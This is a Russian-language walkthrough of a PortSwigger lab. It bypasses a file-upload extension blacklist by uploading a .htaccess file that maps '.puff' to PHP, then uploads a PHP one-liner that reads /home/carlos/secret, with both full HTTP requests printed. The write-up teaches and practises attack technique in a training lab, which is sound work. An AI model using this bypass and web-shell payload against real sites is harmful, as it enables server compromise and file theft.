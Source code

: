 ```yaml
---
title: "Web shell upload via extension blacklist bypass"
date: 2025-08-14
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/
```

## Solution

Воду в аккаунт, чтобы получить доступ к форме загрузки файлов.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/1.png){: height="200" .align-center}

Попробую загрузить `php` файл.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/2.png){: height="200" .align-center}

Не удивительно, так как в названии лабы фигурует `blacklist bypass`. Значит нужно найти такое расширение, что не в ходит в этот черный список. Для этого воспользуюсь [вот этой репой](https://github.com/mathiasbynens/small/blob/master/.htaccess) на github. Ее я позаимствовал из [этого поста](https://t.me/hahacking/78). Начну попорядку с `.htaccess`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/3.png){: height="200" .align-center}

Получилось.

`.htaccess` — это конфигурационный файл веб-сервера Apache, позволяющий управлять работой веб-сервера и настройками сайта с помощью различных параметров (директив) без изменения основного конфигурационного файла веб-сервера. С помощью `AddType` я могу попробовать добавить обработку файлов с кастомным расширенем, как `php`. Попробую добавить такую функцию для файлов с расширением `.puff`:

```ы
AddType application/x-httpd-php .puff
```

Для его загрузки я использовал следующий запрос:

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 503
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .puff

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

Поле `Content-Type` я заменил на `text/plain`, а имя файла `filename` на `.htaccess`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/4.png){: height="200" .align-center}

Файл успешно сохранен, значит можно протестировать `.puff` файл. Для этого переименую `php` файл в `exploti.puff` и загружу его на сайт, заменив `Content-Type` на `application/x-httpd-php`.

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 537
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename="exploit.puff"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/5.png){: height="200" .align-center}

Время проверить свою аватарку)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/6.png){: height="200" .align-center}

Сдам токен `7GvfAzPQ9moCc5oEgdtXqldiB0LxX2Kr` в форму проверки для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/7.png){: height="200" .align-center}